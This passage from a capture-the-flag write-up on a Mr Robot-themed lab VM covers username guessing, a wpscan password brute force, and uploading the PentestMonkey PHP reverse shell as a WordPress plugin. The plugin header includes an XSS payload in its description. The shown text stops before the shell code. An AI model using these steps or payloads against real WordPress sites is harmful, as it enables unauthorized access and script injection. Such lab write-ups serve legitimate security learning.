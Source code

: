 ```
Error: invalid username.
```

Being Mr Robot themed vm, my thougt was that the username would be based off characters on the show, I stared to test the list mentionned above, I was correct the user name was: `Elliot`

My first attempt was to use the first key we found as Elliot's password but it failed my next step was to find what hash type the key was, it seemed to be unvalid md5 hash. From there I decided to use wpscan to perform a dictionary attack using the provided wordlist `fsocity.dic` on Wordpress instance.

![wp_bruteforce](/images/mrrobot_wp_bruteforce.png)

Two hours later, I got the password: `ER28-0652`.

So I logged in and pocked arround, my next mission was to get a shell on the machine. That could be easily done by uploading a PHP reverse shell as wordpress plugin. I used [PentestMonkey PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), I added on top of the php source code a valid WP plugin comment, zipped it and uploaded.

```
<?php
/**
* @package Pwn Me
 */
/*
Plugin Name: Pwn Me
Plugin URI: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
Description: Pwning Mr Robot Hacking Challenge<script>alert(0)</script>
Version: 3.1.5
Author: @ibrahimdraidia
Author URI: https://blog.ibrahimdraidia.com/
License: GPLv2 or later
Text Domain: Pwn Me
*/

// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
```